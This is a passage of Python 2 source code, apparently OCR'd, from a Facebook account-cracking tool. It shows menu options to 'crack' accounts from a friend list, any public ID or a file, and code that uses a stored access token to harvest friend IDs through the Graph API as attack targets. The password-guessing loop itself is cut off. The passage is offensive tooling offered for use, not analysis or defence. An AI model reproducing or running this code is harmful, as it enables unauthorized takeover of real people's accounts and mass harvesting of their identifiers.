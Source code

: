 	if unikers =="":
		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih()
	elif unikers =="1":
		super()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih()
def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;96m \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List"
	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ID"
	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File"
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"
	pilih_super()
def pilih_super():
	peak = raw_input("\n\033[1;97m >>> \033[1;97m")
	if peak =="":
		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		jalan('\033[1;96m \033[1;93mGetting ID \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		idt = raw_input("\033[1;96m \033[1;93mEnter ID \033[1;91m: \033[1;97m")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mName\033[1;91m :\033[1;97m "+op["name"]
		except KeyError:
			print"\033[1;96m \x1b[1;91mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
			super()
		jalan('\033[1;96m \033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="3":
		os.system('clear')